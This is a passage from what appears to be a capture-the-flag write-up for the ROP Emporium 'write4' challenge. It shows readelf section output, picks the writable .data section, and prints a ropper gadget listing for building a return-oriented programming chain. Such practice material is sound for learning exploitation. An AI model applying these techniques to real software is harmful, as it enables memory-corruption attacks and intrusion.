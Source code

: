 ```text
  [27] .comment          PROGBITS         0000000000000000  00001060
       0000000000000034  0000000000000001  MS       0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001ae2
       000000000000010c  0000000000000000           0     0     1
  [29] .symtab           SYMTAB           0000000000000000  00001098
       0000000000000768  0000000000000018          30    50     8
  [30] .strtab           STRTAB           0000000000000000  00001800
       00000000000002e2  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

Tool called `readelf` will show us all essential information about the binary in order to find a good place for our string. Look at `Section headers`. There we have a list of sections present in a binary, but we cannot choose just any. We have to find a section, that will allow us to write there a value. In addition, placing there our string and possibly corrupting the data should not damage anything important. 

Do you have a target? Personally, I would go for `.data` section at address `0000000000601050`. In addition, we can check if there is any data present in this section.

```text
[w3ndige@main write4]$ readelf -x .data write4 

Hex dump of section '.data':
  0x00601050 00000000 00000000 00000000 00000000 ................
```

Nothing! That should work great. 

Now we have to find gadgets that will allow us to place that string into the section. I'm going to use `ropper` once again. 

```text
[w3ndige@main write4]$ ropper --file write4
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======


0x00000000004006a2: adc byte ptr [rax], ah; jmp rax; 
0x000000000040089f: add bl, dh; ret; 
0x0000000000400734: add byte ptr [rax - 0x7b], cl; sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x000000000040089d: add byte ptr [rax], al; add bl, dh; ret; 
0x0000000000400732: add byte ptr [rax], al; add byte ptr [rax - 0x7b], cl; sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x000000000040089b: add byte ptr [rax], al; add byte ptr [rax], al; add bl, dh; ret; 
0x000000000040081c: add byte ptr [rax], al; add byte ptr [rax], al; mov qword ptr [r14], r15; ret; 
0x00000000004006ac: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x00000000004007a1: add byte ptr [rax], al; add byte ptr [rdi + 0x4008d7], bh; call 0x5d0; mov eax, 0; pop rbp; ret; 
0x00000000004005b3: add byte ptr [rax], al; add rsp, 8; ret; 
0x00000000004007a2: add byte ptr [rax], al; mov edi, 0x4008d7; call 0x5d0; mov eax, 0; pop rbp; ret; 
0x000000000040081e: add byte ptr [rax], al; mov qword ptr [r14], r15; ret; 
0x00000000004007fa: add byte ptr [rax], al; mov rdi, rax; call 0x620; nop; leave; ret; 
0x00000000004006ae: add byte ptr [rax], al; pop rbp; ret; 
```